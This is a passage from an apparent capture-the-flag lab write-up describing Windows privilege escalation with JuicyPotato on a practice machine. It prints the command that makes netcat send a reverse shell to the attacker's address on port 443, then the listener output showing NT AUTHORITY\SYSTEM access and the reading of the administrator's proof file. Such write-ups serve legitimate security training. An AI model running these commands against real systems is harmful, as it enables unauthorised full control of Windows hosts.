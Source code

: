 We'll use `{8BC3F05E-D86B-11D0-A075-00C04FB68820}`, for no particular reason then execute JuicyPotato and run another netcat to spawn a new reverse shell for us.

```
C:\inetpub\wwwroot\upload>juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.23 443" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.23 443" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 1234
......
[+] authresult 0
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\inetpub\wwwroot\upload>
```

And... we get a shell back as `NT AUTHORITY\SYSTEM`:

```
# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.116] 49709
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type c:\users\administrator\desktop\proof.txt
type c:\users\administrator\desktop\proof.txt
5737DD...
```